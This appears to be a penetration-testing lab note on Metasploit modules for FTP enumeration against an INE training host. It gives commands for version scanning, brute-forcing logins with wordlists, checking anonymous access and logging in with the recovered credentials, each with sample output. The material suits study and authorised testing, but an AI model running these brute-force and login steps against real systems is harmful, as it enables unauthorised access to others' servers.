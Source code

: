 # 📦 Metasploit - FTP Enumeration Modules

This file explains useful **Metasploit auxiliary modules** for FTP service enumeration and login attempts.  

---

## 🎯 Purpose

These modules help you:  
- Detect FTP service version  
- Brute-force login credentials  
- Test anonymous login access  
- Interact with FTP manually  

---

## 🗂️ FTP Enumeration Modules Summary

| #  | Module / Tool     | What it Does                           |
|----|-------------------|----------------------------------------|
| 1  | ftp_version       | Detect FTP server version              |
| 2  | ftp_login         | Brute-force FTP login with wordlists   |
| 3  | ftp/anonymous     | Check if anonymous login is allowed    |
| 4  | ftp client        | Manual login and interaction           |

---

## 🔎 1. Detect FTP Version

**Module:**
```bash
auxiliary/scanner/ftp/ftp_version
```

**Commands:**
```bash
use auxiliary/scanner/ftp/ftp_version
set RHOSTS demo.ine.local
run
```

📸 **Sample Output:**
```
[+] 10.6.18.10:21 - FTP Server: vsFTPd 3.0.3
```

🔍 **Interpretation:**
- The FTP service is running **vsFTPd 3.0.3**.  
- Version info is useful to check for known vulnerabilities.  

---

## 🔐 2. Brute-force FTP Login

**Module:**
```bash
auxiliary/scanner/ftp/ftp_login
```

**Commands:**
```bash
use auxiliary/scanner/ftp/ftp_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
```

📸 **Sample Output:**
```
[+] 10.6.18.10:21 - Login Successful: user:password123
```

🔍 **Interpretation:**
- Found valid credentials → `user:password123`.  
- Can be used to log in manually or escalate privileges.  

---

## 👤 3. Check Anonymous Login

**Module:**
```bash
auxiliary/scanner/ftp/anonymous
```

**Commands:**
```bash
use auxiliary/scanner/ftp/anonymous
set RHOSTS demo.ine.local
run
```

📸 **Sample Output:**
```
[+] 10.6.18.10:21 - Anonymous READ/WRITE access allowed
```

🔍 **Interpretation:**
- Anonymous login is enabled.  
- Some servers allow `ftp` / `anonymous` login with no password or email.  
- Dangerous misconfiguration → attacker can upload or download files.  

---

## 📂 4. Manual FTP Interaction
```bash
ftp demo.ine.local
```

📸 **Sample Output:**
```
Connected to demo.ine.local.
220 (vsFTPd 3.0.3)
Name (demo.ine.local:kali): user
331 Please specify the password.
Password: password123
230 Login successful.
ftp>
```

🔍 **Interpretation:**
- Manually logged in to FTP using discovered credentials.  
- You can now run FTP commands:  
  - `ls` → list files  
  - `get file.txt` → download  
  - `put file.txt` → upload  
